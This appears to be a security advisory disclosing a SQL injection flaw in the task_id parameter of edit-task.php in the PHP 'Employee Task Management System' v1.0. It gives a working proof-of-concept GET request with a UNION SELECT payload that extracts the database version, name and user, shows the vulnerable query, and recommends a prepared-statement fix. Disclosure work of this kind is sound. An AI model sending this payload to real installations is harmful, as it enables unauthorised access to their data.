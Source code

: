 # Employee Task Management System - SQL Injection with low privilege authentication

### Date: 
> 17 February 2023

### Author Email: 
> navaidnasari@hotmail.co.uk

### Vendor Homepage:
> https://www.sourcecodester.com

### Software Link:
> [Employee Task Management System](https://www.sourcecodester.com/php/15383/employee-task-management-system-phppdo-free-source-code.html)

### Version:
> v 1.0

### SQL Injection
> SQL Injection is a type of vulnerability in web applications that allows an attacker to execute unauthorized SQL queries on the database by exploiting the application's failure to properly validate user input. The attacker can use this vulnerability to bypass the security measures put in place by the application, allowing them to access or modify sensitive data, or even take control of the entire system. SQL Injection attacks can have severe consequences, including data loss, financial loss, reputational damage, and legal liability. To prevent SQL Injection attacks, developers should properly sanitize and validate all user input, and implement strong security measures, such as input validation, output encoding, parameterized queries, and access controls. Users should also be aware of the risks of SQL Injection attacks and take appropriate measures to protect their data.

### Affected Page:
> edit-task.php

> On this page task_id parameter is vulnerable to SQL Injection Attack

### Description:
> The employee task management system supports two roles of users, one is admin, and another is a normal employee. the detail of role is given below

+ Admin user has full access to the system 
+ Employee user has only a few menu access i.s. Task Management (only assigned tasks) and Attendance (clock In and out)

> So, if the admin assigns a task to a normal employee, an employee could perform the SQL Injection by editing that task from his/her profile. Therefore, low-privileged users could able to get the access full system.

### Proof of Concept:
> Following steps are involved:

+ Admin assigned a task to an employee (ABC)
+ ABC employee edit the task and could perform the SQL injection with vulnerable parameter (edit-task.php?task_id=765)

### Request:
```
GET /etms/edit-task.php?task_id=765%27+and+false+union+select+1,version(),3,database(),user(),6,7--+- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=ntknjcf821q2u3h85c14qo1r91
Connection: close
```

### Response:
![image](https://user-images.githubusercontent.com/123810418/219764941-37ede104-c4a5-4500-94f2-2fca6e051343.png)

### Recommendation:
> Whoever uses this CMS, should update line no 27 of edit-task.php with the following code to avoid SQL Injection attack:
```
Old Code:
$sql = "SELECT * FROM task_info WHERE task_id='$task_id' ";
```

```
New Code: 
$sql = $obj_admin->db->prepare("SELECT * FROM task_info WHERE task_id=:task_id ");
$sql->bindparam(':task_id', $task_id);
$sql->execute();
$row = $sql->fetch(PDO::FETCH_ASSOC);
```

Thank you for reading
